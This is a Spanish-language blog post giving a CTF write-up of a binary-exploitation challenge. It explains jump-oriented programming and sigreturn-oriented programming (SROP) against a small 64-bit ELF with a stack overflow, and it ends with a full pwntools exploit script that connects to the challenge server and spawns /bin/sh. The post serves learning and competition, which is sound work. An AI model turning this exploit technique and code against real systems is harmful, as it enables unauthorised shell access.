 ```yaml
---
layout: post
title: WRITEUP. Scandinavian journal of psychology
date: 2020-06-15 00:55
comments: true
categories: [Sin categoría]
---
```

<!-- wp:paragraph -->
<p>Vengo con el vuelo del CTF de <a href="https://convid.cl/">CONVID </a>que estuvo, pero es que de Lujo! Felicitaciones a los organizadores. El CTF tenía de todo, desafios de Stego, Crypto, Misc, Web, etc. Y sobre todo mi categoría favorita PWN!,&nbsp; soy muy aficionado al exploit dev y sabiendo que algunos desafíos serian hechos por el gran <a href="https://c4ebt.github.io/">c4e </a>venía con muchas expectativas de lo mismo, por lo que me puse de meta intentar todos los desafíos posibles de la categoría, y estoy muy orgullo del logro, ya que no fue fácil<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/mEr6R7Atzk0P_eBf-ige4n8nB6ZVKeIy5F_jcIw2cq9sSdpadHely-af-AKnOpfyBd5moNHHftNeSEENWH4O9W7UFB_lsKqdlz168vmslgb3-WDudTscACoqnMBk0Yqn0fTjCVgw" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Hasta el último minuto no tenía equipo, pero mi amigo n0m0 (MVP de nuestro equipo) Se le ocurrió juntar algunos amigos para ver qué podíamos hacer,&nbsp; la verdad la experiencia siempre es grata, es increíble lo que puedes aprender de todos y las ideas que se discuten, así que gracias de nuevo a mi team Jot_Kiddiez (yeah hackers de los 90!). Me voy muy contento con el tercer lugar, además de felicitar los ganadores <a href="https://cntr0llz.com/">Cntr0llz </a>quienes por paliza nuevamente se llevan otro CTF a sus bolsillos.<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/yMTXIku1dBvKegxSs9KsbgEfU2ZUv_zUkCUW8p66_YhbwLbH7it79rfOPwC2NDrkjfk6p5y2-EmzbEfzEZGzUMmDBmxwfFrJWt_Q568rp4KtU_rHQMoOQyEuA4oDxkO_uUe7tSRV" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Yendo a lo nuestro! El reto en cuestión es un reto llamado Scandinavian Joournal of Psychology (Que fumaron?). Es un binario sujeto la ejecución&nbsp; de JOP (jump oriented programming), <a href="/writeup-juujuu-pwnday01-soluciones/">sí de nuevo</a>, pero esta vez las cosas son un poco más difíciles, casi tanto como con el desafío “Labot”, que pueden leer el writeup en el blog de otro crack  <a href="https://f4d3.io/convid-pwn-labot/">f4d3</a>!.&nbsp;<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Revisamos primero el binario para observar que es un ELF de 64 bit dinámicamente linkeado.&nbsp;<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/263hl286PktO4QH05IFePzUUrHFhWnXCJ2gzzAFQRJDYKhCOHplX3pUXlZu27SRsTJPPb5OQZ57yN8EFx3J65s0f-ZKxuTKeQLDIzVwL08f8BEnvnnfgiFuf1mTJXsh0Bk0I6Nmf" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Y podemos usar checksec para ver que tiene protección en el stack solamente (NX), por lo tanto no tendremos que lidiar con aslr</p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/h16wTJ5FL9WbzfpDlD6EHAKHbkX_EslW23dCwO2ySlIomi-8njNfWzcNO6gCK44P2C17vXJryGQ_819gqHGpaqMiNLHYbt_3rlgb5iLksJDr6o24yDcaIKn_5t1eBbLmxe5OqxXD" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Cuando analizamos el binario con radare2,, podemos observar que es un binario muy pequeño, sin instrucciones “ret” por lo que deberemos ocupar los saltos a registros para controlar el flujo del stack, luego de darnos cuenta que existe un overflow en la función read<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/tyBnJhaxNmL0k7nk2-kr4cC35H46HRAXFgxPsCYl0SEdJo9oqnfwqymV3ydP5xr7D7Dv6XJAkOzijS7bI7s07jl3JsakmEY3tW9lNinfqc_JUKbq7624t7lERhO_DhOfmUjNgXfu" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Probamos usar cyclic para identificar el crash en gdb<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/mT31CFHSg3zAmz62yTSPSKXKmBvqTRh8faN2Wcf__Gwzv8gs8zRZwfTTPpBm8ybx51orO1gTNJJE0jbz8Yg3vXHeQItQX--wEG0q82iJ4HpBCYjIGc6ttC4duw1kkyRgmm6poJYu" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Y luego calcular el offset al crash en RSP que resulta en 264<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/n_6W1YXvLKTKre-EJK9DPYvTDAMEdGze9-3gx76EF_qBihALhRjKxsBZ7btvpYN0SQM2_CvnEA8NeXyR0sUCwEI9gcbhdOhUUGUPkdO-4Q6vhE2y5CMq6TWrdHoKyx2r93JbEkKf" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:image {"width":422,"height":144} -->
<figure class="wp-block-image is-resized"><img src="https://lh4.googleusercontent.com/NAQ6MQj7xZYoToYBy3lwJiN8uAKJ4sHlOFGTaNwGUHCmCnUZqVQ3fabDwIQnMbajcO2ecul8xkCDhELa_mUw5zkBnSRAXZkjjY9k8crOkftffBrz2dY0CbT96JJVslZ3N6PIAjcN" alt="" width="422" height="144" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Además podemos usar objdump para obtener más información del binario y buscar los gadgets disponibles, resulta interesante que existe una sección .data la cual nos será de utilidad más tarde<br></p>
<!-- /wp:paragraph -->

<!-- wp:image {"width":660,"height":189} -->
<figure class="wp-block-image is-resized"><img src="https://lh5.googleusercontent.com/8S8pi_CvQMYgQZbae4Hp7pEh5OB4ZLZYjBAWq4tBOeQdamPQPXDprzYDwrDjZuV8XaHRQB0g5-lHbmX4dLkPC8uHGmhtXaxF9qJYmc6wxuHplhoNy5VvtWjsl30u1vDSTLLcE4ya" alt="" width="660" height="189" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Y aca los gadgets disponibles (muy pocos!)<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/LITYQjXoxQbixxNrpqONE6rpmAe47i4GHNGtpzqs4MTpO9kqx4ANZxaczxguATeZMTwzfE0EqIt5ZLuK0qBGtat7-P_b18hpxTBSr9NYICxZ2Jo-F6o3vdC8Dakwnlr-O9Dx5GA3" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Qué hacemos ahora pues jop! Como expliqué en otras ocasiones necesitamos setear&nbsp; un dispatcher el cual nos permita retornar al stack y tomar instrucciones de el cada vez que “retornemos” con un salto. El registro a setear parece ser RCX por y nuestro dispatcher es el salto al stack:<br></p>
<!-- /wp:paragraph -->

<!-- wp:image {"width":657,"height":47} -->
<figure class="wp-block-image is-resized"><img src="https://lh3.googleusercontent.com/VItpgQdij6u3CmiCqOehlBK6zZol9TJdpE9iQUEOyANUPZVu5f4HY7x1pqdv-ATjGbtzOb8-2oCZHU9WjkYNbc6QkR5jujLnDGIiQG9ZBamRZYD4p2RReXUSJaPRbnZaiEPreLOA" alt="" width="657" height="47" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Así que comenzamos seteando algunas variables y nuestro payload:<br></p>
<!-- /wp:paragraph -->

<!-- wp:image {"width":480,"height":402} -->
<figure class="wp-block-image is-resized"><img src="https://lh4.googleusercontent.com/LeH4phcdgPkcQQ_2v-XwK8iRI-3tNgm7kle1SeEGHV3FS7aEVEwaBr_EjXT0GtpYuuDVfDa3NbJh99yC1Y6a1YtpqkO1swkY7kMlf8WVnSghA0EXKLNUWuOmrIgmFW70rwR6HKLF" alt="" width="480" height="402" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Bueno con esto ya podemos saber que siempre que ocupemos un gadget que lleve a un salto a RCX vamos a poder retornar a ejecutar la instrucción que se encuentr en el stack, y ahora… Aca es donde uno se cabecea y le da vueltas, no estaba fácil. Luego de muchas pruebas observamos que si llamamos nuevamente a read, el valor de RAX se intercambia con el valor de RDX (el cual contiene el tamaño del buffer donde lee read.<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/iwyUKBLWujtRy5w-dGjLHXs1r95UEriABK17C9wUjMCdC5OV3HHMMqOAtXvGbVb3vpGBXeVBCm2ysE2QQkKY9lWpiHPeUWjIQmZRp8lo7-D-7Zo6mh9B7PCcBCE2jYPpBF02nRg7" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/cjXmcexfZaoXMQExmQnLNaErTwIy95MWR8ZUFgd0iH4PEWPM2rnt4u0WVfVWLah887IPn5Vk4ruo9DqImoCwd-5qULkLaGexpxjZy6kSXEKuuvyobsLEvsLxsHFVzVFY6b9HmHFH" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Genial si sumamos esto al gadget que nos permite aumentar RAX en 7 podemos hacer que el valor de RAX sea 0xF. Que nos permite esto? Pues hacer SROP! O sigreturn oriented programming, que en verdad es una técnica de explotación del tipo “one gadget” ya que nos permite hacer una llamada a sigreturn (que no pide argumentos) y esto nos ayudará a luego crear un “fake frame” lo cual nos permitirá situar los registros a los valores que queramos.<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><a href="https://lwn.net/Articles/676803/">Mas info de SROP Aca!</a><br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Excelente pues llamaremos entonces a sigreturn y seteamos los registros para llamar a execve</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Y dado que llamamos de nuevo read usaremos read para setear los valores de RSI a .data (y escribir /bin/sh para luego usarlo con execve()). Y RDX a 8 para setear luego RAX al mismo valor, nuestro payload queda así (<a href="https://docs.pwntools.com/en/stable/rop/srop.html">gracias pwntools!</a>)<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/0uG6QbXl1yGKIUbQnN3CH0J4NUfk0WSRCud8RZw6iwOY7tRs2eg2FBUYf_A_WIiIUnvRDuJF9utMnudAWydObKGl6DdcmSb764aXSjMTBaVh42dFyyvC-cgwtcF5WkNc7SyUAQO3" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Ahora le ponemos bencina a la cosa y ejecutamos, podemos ver la llamada a read para escribir en .data:</p>
<!-- /wp:paragraph -->

<!-- wp:image {"width":583,"height":130} -->
<figure class="wp-block-image is-resized"><img src="https://lh3.googleusercontent.com/UWLV5sSJr7pNMYjY4trWaoCurFox6xsrv-MTJf8ajs2wqY-Lh1mNMOgI9di9-z592GTH-WA9rHesWVMt9xqtLovi8Jpj2az2mOhbE8Ctst5yEhqCRSSS6Pt_AkSkiKCMHQGvZ4E3" alt="" width="583" height="130" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>y luego sigreturn para setear los registros<br></p>
<!-- /wp:paragraph -->

<!-- wp:image {"width":568,"height":164} -->
<figure class="wp-block-image is-resized"><img src="https://lh6.googleusercontent.com/mdTIBma4otEJsJnXXRuOYAzdqrqVlU70tI9OVjNv36mXgFSgMqZerDA4mAo3qu-jwSDSRrq83NZ8RtPrfdSZzq1Wn-4z4kG9WASKLpRswBJPUDcQ99hUdQ8Yo3UilukwCS2zQpzC" alt="" width="568" height="164" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Y finalmente exceve() con la llamada a /bin/sh<br></p>
<!-- /wp:paragraph -->

<!-- wp:image {"width":580,"height":121} -->
<figure class="wp-block-image is-resized"><img src="https://lh5.googleusercontent.com/UaAOu2VSnD_FYFnHgYrYHzCXNmtZ3b9nlf3V_4RgaPDqZzeYWJ20hgaOP9QeEHngcT0CtJ9eqfJXJ6M7xoUsNBRetQSrmlI6Y-L185RU7KdUbW3j2SlSNdpS0RH-GGkFRDhpbXKx" alt="" width="580" height="121" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Ahora aprobamos remoto y BANG! FLAG DANCE! </p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/KFc40PWR-jb9LykpS7NI6KZrUy3eernjVA0gyGm_368DxHVjDptj9DzsBZfzyb9-gMISC5aByM3nkGZwIvoBlPgTy3oqclLKiymKbQ-8NOOuUk7An9gIhM5EOVieZh_6lbqvwW4u" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Aca les dejo el exploit completo, lo pase genial! Pronto espero compartir mas writeups del CTF, estuvo muy bueno!</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
```python
from pwn import *
from time import sleep

context.clear(arch="amd64")
gdbscript = '''
break *0x00400107
continue
'''
data = 0x600124
dispatcher = 0x00400107
binsh = "/bin/sh\x00"
syscall = 0x400105

payload = (cyclic(256))
payload += p64(0x400115) #pop rcx
payload += p64(dispatcher)#rcx
payload += p64(0x400114)#pop
payload += p64(data)#rsi
payload += p64(0x8)#rdx
payload += p64(0x4000ff)#read
payload += p64(0x400119)
payload += p64(syscall)

frame = SigreturnFrame(kernel="amd64")
frame.rax = 0x3b
frame.rdi = data
frame.rsi = 0 
frame.rdx = 0
frame.rip = syscall
payload += str(frame)

#r = gdb.debug('./nanana', gdbscript)
#r = process('./nanana')
r = remote('172.104.234.7', 7891)
r.sendline(payload)
sleep(1)
r.sendline(binsh)# instrucciones?

r.interactive()
```
<!-- /wp:code -->
